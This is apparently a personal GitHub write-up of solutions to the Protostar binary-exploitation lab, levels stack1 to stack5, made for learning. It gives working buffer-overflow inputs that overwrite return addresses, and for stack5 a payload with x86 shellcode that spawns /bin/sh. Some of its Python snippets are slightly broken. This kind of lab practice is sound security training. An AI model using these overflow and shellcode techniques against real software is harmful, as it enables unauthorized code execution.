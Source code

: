 # Protostar Solutions
- Inspired by Liveoverflow's solutions, meant to help me learn binary exploitation
https://old.liveoverflow.com/binary_hacking/protostar/index.html
- Some were done by myself

## Stack 1
`/opt/protostar/bin/stack1 $(python -c 'print("A"*4*16+"\x64\x63\x62\x61")')`

## Stack 2
Python program
```
import 
os.environ['GREENIE']='AAAABBBBCCCCDDDD'*4+'\x0a\x0d\x0a\x0d'
os.system('/opt/protostar/bin/stack2')
```

## Stack 3 
1. Use objdump to find memory address of the win function
2. Find out the minimum amount of padding to get the program to crash (Just Manual Labour)
3. Replace the padding with the memory address to overwrite it

```
python -c "print('A'*4*16+'\x24\x84\x04\x08')" | /opt/protostar/bin/stack3
```


## Stack 4 
Win function Memory Address at 0x080483f4.
Using gdb to debug, The input text starts at 0xbffff7e0, ebp at 0xbffff828
1. By brute forcing the padding, the program has no segmentation fault with maximum padding of about 'A'*4*18?
2. Through more testing of the padding (modify numbers of the below command), you find the address where the code execution is successfully redirected
  - Because the return pointer is 1 DWORD after ebp
```
python -c "print('A'*4*19+'\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
```

## Stack 5
Through gdb, $ebp is at 0xbffff79b
Python program to generate input
```
padding = 'A'*4*(18+1) # +1 because you actually want to overwrite eip not ebp
eip = "\xbf\xff\xf7\xc0"[::-1]
nop = "\x90"
shellcode = "\x31\xdb\xb3\x03\x31\xc9\xb1\x03\xfe\xc9\x31\xc0\xb0\x3f\xcd\x80\x80\xf9\xff\x75\xf3\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload = padding+eip+nop*4*10+shellcode
print(payload)
with open("/tmp/input") as f: f.write(payload)
```
Shell commands
```
(cat /tmp/input; cat) | ./stack5
```
